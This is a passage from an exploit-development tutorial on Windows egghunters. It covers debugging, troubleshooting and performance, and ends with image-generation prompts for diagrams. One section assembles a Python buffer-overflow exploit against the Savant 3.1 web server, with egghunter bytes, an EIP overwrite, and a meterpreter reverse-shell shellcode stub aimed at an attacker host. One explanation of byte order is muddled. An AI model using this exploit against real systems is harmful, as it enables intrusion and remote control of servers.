### Step 1: Confirm Egghunter Placement

After triggering the crash and landing at the conditional jump in the method field, single-step through the redirect into the A-buffer. Disassemble at EIP to verify the egghunter is intact:

```
0:001> ph                          ; Execute until branch taken
0:001> u @eip L16                  ; Disassemble the egghunter
```

The disassembly should match the expected egghunter instructions. If bytes are mangled (different opcodes than expected), a bad character in the egghunter has been corrupted by the application's input processing. Each byte of the egghunter must be verified against the bad character list.

### Step 2: Confirm Secondary Buffer Presence

Before running the egghunter, confirm the egg-marked payload is in memory:

```
0:001> s -a 0x0 L?80000000 w00tw00t
```

This searches the first 2 GB of the virtual address space for the ASCII string `w00tw00t`. If found, the address is returned. This confirms the secondary buffer survived the HTTP request processing and is resident in memory. If not found, the buffer placement mechanism is broken — the egghunter will loop forever.

### Step 3: Handle Access Violations in the Debugger

The syscall-based egghunter generates a constant stream of access violations during its traversal. Without configuration, WinDbg stops on each one. Suppress these:

```
0:001> sxn av                      ; Set access violations to "notify" (print message, continue)
```

For the SEH-based variant, the exceptions are dispatched through the exception framework and must not be suppressed with `sxn av`, or the egghunter's custom handler will be bypassed and the process will terminate. Use `sxe av` (set exception, first chance) to monitor them without stopping, or use `g` to run and wait.

### Step 4: Set Breakpoint on Final Instruction

Place a breakpoint on the `JMP EDI` (syscall variant) or `JMP EDI` within the `is_egg` block (SEH variant). This is the final instruction before execution transfers to the payload:

```
0:001> bp [address of JMP EDI]
0:001> g
```

### Step 5: Verify EDI Correctness

When the breakpoint fires, verify that EDI points to the first byte of the shellcode (immediately after the egg):

```
0:001> dc @edi - 0x08              ; Show 8 bytes before EDI (the egg marker)
0:001> u @edi L4                   ; Disassemble from payload start
```

The dump at `edi - 8` should show `77 30 30 74 77 30 30 74` (`w00tw00t`). The disassembly at `edi` should show the payload instructions or NOP sled.

### Step 6: Bad Character Verification in the Secondary Buffer

The secondary buffer (after the HTTP terminator) may traverse different code paths in the application than the primary exploit buffer, and may be subject to different bad characters. Before replacing the `D` placeholder bytes with real shellcode, send a complete bad character test sequence through the secondary buffer and inspect the result at `EDI`:

```
0:001> db @edi L110                ; Dump 272 bytes starting at payload
```

A sequential dump should show `01 02 03 04 05 06...` without gaps or substitutions. Any corruption indicates additional bad characters in the secondary buffer region.

---

## Failure Scenarios and Troubleshooting

### Egghunter Loops Indefinitely

**Symptom:** The egghunter runs but never hits the `JMP EDI` breakpoint. The debugger's access violation count climbs without bound.

**Causes and solutions:**

1. **Secondary buffer not in memory.** Run `s -a 0x0 L?80000000 w00tw00t` before triggering the crash. If the egg is not found, the payload delivery mechanism is broken. Check whether the server processes the post-terminator data or discards it. The data must be present in memory at the time the egghunter executes.

2. **Wrong egg value in egghunter.** The `MOV EAX, 0x74303077` in the egghunter must match the `w00tw00t` prefix in the secondary buffer byte-for-byte. Verify `0x74303077` disassembles correctly from the egghunter bytes in memory.

3. **Egg marker corrupted in transit.** If the egg value contains bad characters, the delivery mechanism corrupts it, and the egghunter cannot match against the corrupted version. Check the secondary buffer's region for bad characters as described above. Use a different egg value if necessary.

4. **Egghunter code corrupted.** A bad character in the egghunter itself produces incorrect instructions. Validate every egghunter byte against the bad character list.

### SEH-Based Egghunter Never Calls Handler

**Symptom:** Access violations occur during `REPE SCASD`, but the handler code (confirmed by disassembly at its address) is never reached.

**Cause:** One of the four SEH validation checks fails. The most common is check 4 (handler must be above StackBase). Verify the fix is applied:

1. Single-step through `build_exception_record`
2. After `MOV FS:[EBX], ECX` (the StackBase forge), inspect `!teb`
3. Confirm `StackBase` is now set to `handler_address - 4`
4. Use `!exchain` to verify the SEH chain entry points to the correct handler

If the record itself is not being found in the chain, inspect `FS:[0]` to confirm it was written correctly.

### Crash at JMP EDI — Wrong Landing Address

**Symptom:** The egghunter finds the egg and executes `JMP EDI`, but the application crashes immediately after.

**Cause:** EDI points to the wrong location. After both `SCASD` operations, EDI points 8 bytes past the start of the egg marker — into the payload. If the payload is corrupted, has bad characters, or EDI is misaligned, the shellcode will not execute correctly.

**Debug:** At the `JMP EDI` breakpoint, `dc @edi - 8` should show the egg. `db @edi L20` should show the first 32 bytes of shellcode. If these bytes do not match what was sent, identify the bad characters and re-encode the shellcode (typically using `msfvenom` with the `-b` bad character flag).

### Access Violations in Wrong Places

**Symptom:** The debugger stops on an access violation not related to the egghunter traversal — for example, during the conditional jump setup or during shellcode execution.

**Cause:** A gadget address, egghunter byte, or shellcode byte is corrupted. Verify each component independently:
1. Does the `POP EAX; RET` gadget execute correctly (set a breakpoint on it)?
2. Does the conditional jump fire correctly (step through it)?
3. Is the egghunter intact at EIP after the redirect?

Work from the beginning of the execution chain to the end, confirming each component before proceeding.

---

## Performance Considerations

The egghunter traverses the entire process virtual address space, which on a 32-bit process is up to 2 GB. In practice, only a fraction of those addresses are mapped — perhaps 200–400 MB in a typical application — but the traversal still takes time. For a network-based exploit, the egghunter executes synchronously in the vulnerable thread; during traversal, the thread is not servicing network requests.

**Observed traversal speed:** On modern hardware, the syscall-based egghunter issues several hundred thousand system calls per second. The SEH-based egghunter, which dispatches through the Windows exception framework on each page fault, is slower due to the overhead of exception context setup, SEH chain walking, and context restoration. The difference is measurable: the SEH variant may take several seconds to complete traversal on large processes; the syscall variant is typically faster.

**Practical implication:** The egghunter should find the payload quickly if the egg is in a low-addressed heap region. If the payload is placed in a high-addressed region and the heap is fragmented across a large range, traversal time increases. Placing the secondary buffer early in the interaction with the target (before other allocations fragment the heap) tends to place it in a low-addressed region.

**Minimizing unnecessary probes:** The page-skip optimization (`or dx, 0x0FFF`) is critical to performance. Without it, the egghunter would probe every byte of every page — including the 4095 bytes after the page boundary determination. With it, the egghunter skips to the next page boundary after detecting an inaccessible page, reducing the number of system calls or exceptions by a factor proportional to the ratio of mapped to unmapped pages.

---

## End-to-End Exploit — Final Assembly

Bringing all components together, the complete exploit structure for Savant 3.1 using the SEH-based egghunter:

```python
import socket
from struct import pack

# Bad characters: \x00 \x0a \x0d \x20 \x25

server = "10.0.2.5"
port   = 8000
size   = 260

# ---------------------------------------------------------------
# Method field: conditional jump (7 bytes) + " /"
# Redirects to A-buffer after POP EAX; RET fires
# xor ecx, ecx; test ecx, ecx; jz +0x11 (= jz to egghunter start)
# ---------------------------------------------------------------
method = b"\x31\xC9\x85\xC9\x0F\x84\x11" + b" /"

# ---------------------------------------------------------------
# Egghunter (SEH-based, fixed for Windows 10 validation)
# Preceded by 8-byte NOP sled for alignment
# ---------------------------------------------------------------
egghunter = (
    b"\x90" * 8 +                          # NOP sled
    b"\xeb\x2a"                            # jmp get_seh_address
    b"\x59"                                # pop ecx
    b"\xb8\x77\x30\x30\x74"               # mov eax, 0x74303077
    b"\x51"                                # push ecx
    b"\x6a\xff"                            # push -1
    b"\x31\xdb"                            # xor ebx, ebx
    b"\x64\x89\x23"                        # mov [fs:ebx], esp
    b"\x83\xe9\x04"                        # sub ecx, 4
    b"\x83\xc3\x04"                        # add ebx, 4
    b"\x64\x89\x0b"                        # mov [fs:ebx], ecx
    b"\x6a\x02"                            # push 2
    b"\x59"                                # pop ecx
    b"\x89\xdf"                            # mov edi, ebx
    b"\xf3\xaf"                            # repe scasd
    b"\x75\x07"                            # jnz loop_inc_one
    b"\xff\xe7"                            # jmp edi
    b"\x66\x81\xcb\xff\x0f"               # or bx, 0xfff
    b"\x43"                                # inc ebx
    b"\xeb\xed"                            # jmp is_egg
    b"\xe8\xd1\xff\xff\xff"               # call build_exception_record
    b"\x6a\x0c"                            # push 0x0c
    b"\x59"                                # pop ecx
    b"\x8b\x04\x0c"                        # mov eax, [esp+ecx]
    b"\xb1\xb8"                            # mov cl, 0xb8
    b"\x83\x04\x08\x06"                    # add [eax+ecx], 6
    b"\x58"                                # pop eax
    b"\x83\xc4\x10"                        # add esp, 0x10
    b"\x50"                                # push eax
    b"\x31\xc0"                            # xor eax, eax
    b"\xc3"                                # ret
)

# ---------------------------------------------------------------
# Filler to reach EIP offset
# ---------------------------------------------------------------
filler = b"A" * (253 - len(egghunter))

# ---------------------------------------------------------------
# EIP: partial overwrite with 3 bytes (null supplied by app)
# POP EAX; RET at 0x00418674
# ---------------------------------------------------------------
EIP = pack("<L", 0x418674)[:3]             # 3 bytes; null byte appended by parser

# ---------------------------------------------------------------
# Secondary buffer: egg marker + shellcode
# Placed after HTTP request terminator — lands in heap
# ---------------------------------------------------------------
shellcode = (
    # msfvenom -p windows/meterpreter/reverse_tcp
    # LHOST=<attacker> LPORT=443 EXITFUNC=thread
    # -b "\x00\x0a\x0d\x20\x25" -f python
    b"\xbe\x81\x4a\x93\x05\xdd\xc0\xd9\x74\x24\xf4"
    # ... (full shellcode here)
)

egg    = b"w00tw00t" + b"\x90" * 8 + shellcode

# ---------------------------------------------------------------
# Final payload assembly
# ---------------------------------------------------------------
payload = (
    method      +                          # 7 + 2 = 9 bytes
    egghunter   +                          # 8 (NOP) + 60 (egghunter) = 68 bytes
    filler      +                          # Padding to offset 253
    EIP         +                          # 3-byte partial overwrite
    b"\r\n\r\n" +                          # HTTP request terminator
    egg                                    # Egg marker + shellcode (heap)
)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((server, port))
s.send(payload)
s.recv(1024)
s.close()
```

The execution flow:

```
1. HTTP request delivered
   └─→ Parser stores body (egg + shellcode) in heap

2. Buffer overflow corrupts stack
   └─→ EIP = 0x00418674 (POP EAX; RET)

3. POP EAX; RET executes
   └─→ EAX = first stack value (valid address)
   └─→ EIP = *(esp+4) = start of HTTP method buffer

4. Conditional jump in method field fires
   └─→ EIP = start of NOP sled before egghunter

5. Egghunter executes
   └─→ Installs custom SEH record (forged StackBase)
   └─→ REPE SCASD traverses virtual address space
   └─→ Page faults handled by custom SEH handler
   └─→ Eventually: REPE SCASD finds "w00tw00t" in heap

6. JMP EDI executes
   └─→ EIP = heap address of shellcode (after egg)

7. Shellcode executes
   └─→ Meterpreter reverse connection established
```



---

## Common Mistakes

**1. Using the wrong egg encoding in the exploit delivery.**
The egghunter compares `EAX` (containing `0x74303077`) against memory using `SCASD`, which reads little-endian. The egg marker in the secondary buffer must be the ASCII string `w00tw00t` — 8 printable characters. A common mistake is encoding the egg as the hex value `0x74303077` twice in the delivery script instead of the ASCII bytes `\x77\x30\x30\x74\x77\x30\x30\x74`. These happen to be different: `0x74303077` as bytes is `\x74\x30\x30\x77`, which reversed (big-endian) is `w00t` — but in Python, `b"w00tw00t"` is `\x77\x30\x30\x74\x77\x30\x30\x74`, which is what SCASD reads correctly from memory.

**2. Not checking bad characters in the secondary buffer.**
The secondary buffer travels through different code paths than the primary exploit buffer. A character that is safe in the URL path may be corrupted in the body, or vice versa. Always verify the secondary buffer independently with a full bad character test sequence.

**3. Placing the egg marker in the egghunter itself.**
The egghunter contains `0x74303077` in the `MOV EAX` instruction. If the egghunter were prefixed with `w00tw00t`, it would find itself. The egg must appear exactly twice consecutively only in the secondary buffer.

**4. Not accounting for the offset between egg and payload.**
After a successful match, EDI points 8 bytes past the start of the egg (after two `SCASD` increments of 4 bytes each). The payload must begin immediately at that offset. If a NOP sled is inserted before the shellcode, it must come *after* the 8-byte egg, not before it.

**5. Forgetting the `sxn av` command in WinDbg.**
Running the egghunter in WinDbg without suppressing first-chance access violations breaks on every page probe. This is not a problem with the egghunter — it is the expected behavior. `sxn av` prevents this and allows the egghunter to traverse uninterrupted.

**6. Expecting the SEH-based egghunter to work without the StackBase fix.**
The published SEH egghunter code predates Windows 10 validation enforcement of check 4. On modern Windows, the handler is silently skipped without the StackBase forge. This causes the egghunter to generate an unhandled access violation and crash the process — which looks identical to a corrupted egghunter. Always verify the fix is applied.

---

## Conclusions

The egghunter is a study in constraints. It must be small enough to fit in a restricted buffer, safe enough to traverse unmapped memory without crashing, reliable enough to find the egg in a non-deterministic heap, and correct enough that every byte survives the target's input processing. Every instruction in a well-designed egghunter exists for a specific reason, and removing or modifying any of them without understanding why it was there will break the technique in subtle ways.

The two primary approaches — syscall-based and SEH-based — represent different tradeoffs between size, portability, and complexity. The syscall variant is simpler and slightly smaller, but requires knowing the correct system call index for the target OS version. The SEH variant is larger but version-independent, and its design illuminates a non-obvious detail of Windows exception handling: that the dispatcher validates exception records against TEB fields, and that those fields are themselves writable from user mode.

What makes egghunters worth studying beyond their immediate practical utility is what they reveal about the Windows process model. Understanding them means understanding virtual address space layout, page granularity, heap memory management, system call mechanisms, and structured exception handling — all at a level of depth that purely theoretical study rarely achieves. The egghunter forces you to reason about memory not as an abstraction but as a physical map of accessible and inaccessible regions that must be navigated carefully.

The technique that Skape formalized in 2004 remains viable two decades later because the fundamental constraints it addresses — limited buffer space, non-deterministic payload placement, access violation risk — are structural features of the x86 Windows architecture that no patch cycle has eliminated. The syscall numbers change. The validation checks tighten. The mitigations accumulate. But the problem of too little space in the wrong buffer, and too much shellcode in the right one, persists as long as memory corruption vulnerabilities exist.

---

## References

1. Skape. *"Safely Searching Process Virtual Address Space."* nologin.org, 2004.
2. Matt Miller (skape). *Windows System Call Tables.* Used for system call number reference.
3. Microsoft Documentation. *_EXCEPTION_REGISTRATION_RECORD*, *_CONTEXT Structure*, *_NT_TIB Structure*.
4. Microsoft Documentation. *Virtual Memory Functions* — VirtualAlloc, VirtualQuery, VirtualProtect.
5. Microsoft Documentation. *Heap Functions* — HeapAlloc, HeapCreate, RtlAllocateHeap.
6. Microsoft Documentation. *Structured Exception Handling* — SEH chain traversal, _EXCEPTION_DISPOSITION.
7. Intel. *Intel 64 and IA-32 Architectures Software Developer's Manuals.* SCASD instruction reference, string operation semantics.
8. Keystone Assembler Engine. [https://www.keystone-engine.org](https://www.keystone-engine.org)
9. Metasploit Framework. `msfvenom` — shellcode generation with bad character filtering.
10. Matt Pietrek. *"A Crash Course on the Depths of Win32 Structured Exception Handling."* MSJ, 1997.
11. NTSTATUS values. *Microsoft NT Status Codes* — STATUS_ACCESS_VIOLATION = 0xC0000005.

---

---

# Visual Assets

---

## 1. Hero Banner

**Filename:** `egghunter-hero.png`
**Placement:** Top of article, full-width hero image
**Purpose:** Set the visual tone and thematically represent the core concept — small code traversing vast memory to locate hidden payload

**Image Generation Prompt:**
> Dark-themed, ultra-minimal, professional cybersecurity research banner. 1920x1080 or 1600x900. Design language inspired by high-end security conference slides (Black Hat, DEF CON main stage). Visualize a 32-bit Windows virtual address space as a vertical column of memory blocks on the left: dark background (#0d1117), memory regions rendered as thin horizontal bars of slightly different dark greys and deep blues — some labelled "Stack", "Heap", "ntdll.dll", "[unmapped]" in monospace IBM Plex Mono or JetBrains Mono font, very small, dim white. A tiny glowing cursor/pointer icon travels downward through the memory blocks, leaving a dim trail. When it reaches a specific dark-blue heap block, a bright teal-green glow erupts from a small 8-byte highlighted region labelled "w00tw00t" in monospace. To the right: disassembled x86 assembly listing in dim green-on-black terminal style — the egghunter instructions. No person, no hacker, no globe, no padlock. Palette: near-black background, subtle dark blue accents, teal-green highlight for the egg discovery moment. Text overlay in upper third: "Egghunters" in bold sans-serif (Inter or SF Mono), subtitle "Traversing Process Memory to Overcome Space Restrictions" in smaller weight. Feels like a premium research publication cover.

---

## 2. Windows Virtual Address Space Layout Diagram

**Filename:** `windows-vas-layout.png`
**Placement:** Section "Windows Virtual Memory Fundamentals" → "The Virtual Address Space"
**Purpose:** Visualize the 4GB VAS partition between user and kernel space, with key regions labeled

**Image Generation Prompt:**
> Dark background (#0d1117). Vertical memory map diagram, clean and minimal. Shows a tall narrow rectangle representing 4GB address space from 0x00000000 (bottom) to 0xFFFFFFFF (top). Divided at 0x80000000 with a clear horizontal dividing line labeled "Kernel/User Boundary". Upper half (0x80000000–0xFFFFFFFF): dark red-tinted block labeled "Kernel Space" with small "Ring 0 — inaccessible from user mode" note. Lower half (0x00000000–0x7FFFFFFF): segmented into multiple blocks from bottom to top: tiny dark grey "[null page]" at 0x00000000, blue-grey block "[PE Image / .exe]" around 0x00400000, medium green-tinted block "[ntdll.dll / system DLLs]", larger teal block "[Heap — dynamic]", large gap "[unmapped]", and near the top a blue block "[Stack — grows downward]" with a down arrow. Each region has its hex address range in monospace font to the left, region name to the right. Subtle grid lines at page boundaries. No decorations, no shadows beyond thin borders. Monospace font throughout. Professional, publication-ready.

---

## 3. Memory Page Structure

**Filename:** `memory-page-diagram.png`
**Placement:** Section "Windows Virtual Memory Fundamentals" → "Memory Pages"
**Purpose:** Illustrate 4096-byte page granularity and the page-skip logic used by egghunters

**Image Generation Prompt:**
> Dark background (#0d1117). Horizontal diagram showing a sequence of memory pages. Left to right: three blocks each labeled "Page N-1", "Page N", "Page N+1". Each block is 4096 units wide (label: "0x1000 bytes"). Page N-1 is dark green = "MEM_COMMIT / PAGE_READWRITE". Page N is dark red with an "X" overlay = "MEM_FREE / unmapped". Page N+1 is dark green = "MEM_COMMIT". Inside Page N-1: a small pointer labeled "EDX" moving right toward the boundary. At the boundary: an annotation showing the OR operation "OR DX, 0x0FFF → align to page end". Then INC EDX crosses into Page N. A system call icon (stack arrow) tests Page N → returns "0xC0000005 ACCESS_VIOLATION" (shown in red monospace). Arrow then jumps over all of Page N to land at Page N+1 boundary. Clean, technical. Monospace font, IBM Plex Mono. All colors from a minimal palette: dark background, dim teal for valid pages, dim red for invalid, white/light grey text.

---

## 4. Two-Stage Egghunter Architecture

**Filename:** `two-stage-architecture.png`
**Placement:** Section "Why Egghunters Exist: The Two-Stage Model"
**Purpose:** Visualize the split between Stage 1 (egghunter in restricted buffer) and Stage 2 (payload in heap)

**Image Generation Prompt:**
> Dark background. Two-column diagram. Left column: "Stack (at crash time)" — a vertical rectangle divided into labeled sections from top to bottom: "[HTTP method: JMP stub]" small grey block, "[Egghunter 35–60 bytes]" small teal-highlighted block, "[A-filler]" grey, "[EIP overwrite]" red-highlighted, "[HTTP terminator]" grey. Right column: "Heap (prior allocation)" — a larger vertical rectangle with "[w00tw00t egg marker]" shown in bright teal, "[Shellcode 400+ bytes]" in a warm amber block below it. A curved arrow sweeps from the Egghunter block on the left to the egg marker on the right, labeled "Egghunter traverses VAS and discovers egg". Above: small label "Restricted: 251 bytes available". Below the heap: "Unrestricted: 400+ bytes available". Font: JetBrains Mono. Palette: dark navy background, teal for controlled regions, red for EIP, amber for shellcode. Clean, layered layout, no decorative elements.

---

## 5. Egghunter Execution Flow (Syscall Version)

**Filename:** `egghunter-syscall-flow.png`
**Placement:** Section "The Syscall-Based Egghunter" → after complete assembly listing
**Purpose:** Show the control flow between the five logical states of the syscall egghunter

**Image Generation Prompt:**
> Dark background (#0d1117). Flowchart-style diagram with rectangular nodes and directed arrows. Nodes: 1) "loop_inc_page: OR DX, 0x0FFF" (dim blue rectangle), 2) "loop_inc_one: INC EDX" (dim blue), 3) "loop_check: PUSH EDX; MOV EAX, syscall; INT 0x2E" (dim teal), 4) "CMP AL, 0x05 / POP EDX" (grey), 5) Decision diamond "ACCESS_VIOLATION?" — YES arrow goes to loop_inc_page, NO arrow goes to 6), 6) "is_egg: MOV EAX, 0x74303077; MOV EDI, EDX; SCASD" (dim green), 7) Decision diamond "First DWORD match?" — NO→ loop_inc_one, YES→ 8), 8) "SCASD (second)" (dim green), 9) Decision diamond "Second DWORD match?" — NO→ loop_inc_one, YES→ 10), 10) "matched: JMP EDI" (bright teal rectangle, glowing border). Arrows labeled with outcomes. Nodes styled as dark rectangles with dim border. Font: JetBrains Mono size 11. Overall layout: logical top-to-bottom flow with back-edges for loops going left of main column. Minimal, clean, professional.

---

## 6. SCASD Instruction Operation

**Filename:** `scasd-operation.png`
**Placement:** Section "Instruction-by-Instruction Walkthrough" → SCASD explanation
**Purpose:** Visually explain what SCASD does to EDI, EAX, and the flags

**Image Generation Prompt:**
> Dark background. Three-row diagram showing state Before and After SCASD execution. Row 1 "Registers": Before — EAX = 0x74303077 (labelled "egg"), EDI = 0x023B6C1E. After — EAX = 0x74303077 (unchanged), EDI = 0x023B6C22 (+4). Row 2 "Memory at [EDI]": Before — shows hex bytes at 0x023B6C1E: "77 30 30 74" (teal, matching). After — same memory, no change. Row 3 "Flags": ZF=1 (match), CF=0. A horizontal arrow between Before and After columns labeled "SCASD executes". Below: a second example with non-matching memory showing ZF=0, CF=... (mismatch case). Instruction shown in monospace at top: "SCASD: Compare EAX with DWORD PTR [EDI]; EDI += 4". Clean diagram, two-column Before/After layout. IBM Plex Mono font. Minimal color: teal for matches, red for mismatches, grey for neutral.

---

## 7. SEH Record Layout and Installation

**Filename:** `seh-record-layout.png`
**Placement:** Section "The SEH-Based Egghunter" → "The CALL/POP Technique"
**Purpose:** Show the _EXCEPTION_REGISTRATION_RECORD structure on the stack after build_exception_record executes

**Image Generation Prompt:**
> Dark background. Vertical stack diagram showing memory contents immediately after the egghunter installs its custom SEH record. Address labels on the left in monospace. From bottom to top (growing upward): dim blocks representing prior stack frames, then a bright teal section showing: [ESP] = "handler address (return addr from CALL)" labeled "_EXCEPTION_REGISTRATION_RECORD.Handler", [ESP+4] = "0xFFFFFFFF" labeled "_EXCEPTION_REGISTRATION_RECORD.Next". An arrow from FS:[0] (labeled "TEB.ExceptionList") points to [ESP]. Beside the stack, a small callout shows the TEB: "FS:[0] ExceptionList → [ESP]" and "FS:[4] StackBase = handler_addr - 4 (forged)". The forged StackBase value is highlighted in amber to indicate it is modified. Labels in JetBrains Mono. Color: dark background, teal for the custom SEH record, amber for the forged field, grey for surrounding stack. Clean technical diagram, no decorative shadows.

---

## 8. SEH Validation Check Flow

**Filename:** `seh-validation-checks.png`
**Placement:** Section "SEH Validation: The Four Checks in ntdll!RtlDispatchException"
**Purpose:** Visualize the four validation conditions and how the egghunter fix satisfies them

**Image Generation Prompt:**
> Dark background. Four horizontal rows, each representing one validation check. Each row has: check name on left, condition formula in monospace center, result column on right (PASS in teal, FAIL in red). Row 1: "Check 1" | "Record address ≥ StackLimit" | "PASS (record on stack, above StackLimit)". Row 2: "Check 2" | "(Record + 0x08) ≤ StackBase" | "PASS (record within stack region)". Row 3: "Check 3" | "Record address & 0x3 == 0" | "PASS (4-byte aligned)". Row 4: "Check 4" | "Handler address ≥ StackBase" | "FAIL without fix → PASS after StackBase forge". Row 4 has an amber annotation pointing to it: "Fix: MOV [FS:4], handler_addr − 4". Below the table: a small note "Without fix: handler silently skipped, egghunter loops infinitely". Table has thin dark borders, column headers in small dim grey text. Font: IBM Plex Mono. Minimalist table/grid design consistent with technical publication style.

---

## 9. Register State Tracking Across Egghunter Phases

**Filename:** `register-tracking.png`
**Placement:** Section "Instruction-by-Instruction Walkthrough" — as a summary register map
**Purpose:** Track how key registers (EAX, EDX/EBX, EDI, ECX) change across the major phases of the egghunter

**Image Generation Prompt:**
> Dark background. Multi-column table with time-ordered columns (left to right): "Init", "Probe Phase", "Egg Check", "Match". Rows for registers: EAX, EDX (or EBX for SEH variant), EDI, ECX, EFLAGS (ZF). Each cell shows the register's value or purpose at that phase, in JetBrains Mono font. Example: EAX row: Init="—", Probe="syscall number (0x1C8)", Egg Check="0x74303077 (egg)", Match="0x74303077". EDX row: Init="0x00000000", Probe="current page address", Egg Check="probe address preserved", Match="probe address". EDI row: Init="—", Probe="—", Egg Check="= EDX (for SCASD)", Match="payload start". Cells use subtle teal for key values, grey for neutral. Header row dark with white text. Clean publication-quality table, no lines except thin separator between rows.

---

## 10. Complete Exploit Buffer Layout

**Filename:** `payload-layout.png`
**Placement:** Section "End-to-End Exploit — Final Assembly" → before the code block
**Purpose:** Visual map of the complete exploit payload — both buffers

**Image Generation Prompt:**
> Dark background (#0d1117). Two horizontal bars stacked vertically, connected by a TCP/network icon between them, labeled "Single HTTP request". Top bar: "Primary Buffer (exploit)" — color-segmented left to right: dark olive "[JMP stub - 7B]", teal "[NOP sled - 8B]", bright teal "[Egghunter - 60B]", dark grey "[A-filler - 178B]", red "[EIP overwrite - 3B]", dim grey "[\\r\\n\\r\\n]". Total width labeled "260 bytes". Bottom bar: "Secondary Buffer (payload)" — teal "[w00tw00t egg - 8B]", teal-dim "[NOP sled - 8B]", amber "[Shellcode - 400B]". Small pointer arrow labeled "SCASD lands here" pointing to the junction between egg and shellcode in the bottom bar. All labels in JetBrains Mono, size proportional to byte count. Palette consistent with rest of article's dark scheme. Thin borders around each segment, segment labels inside bars. Professional, clean, no decorative elements.

---


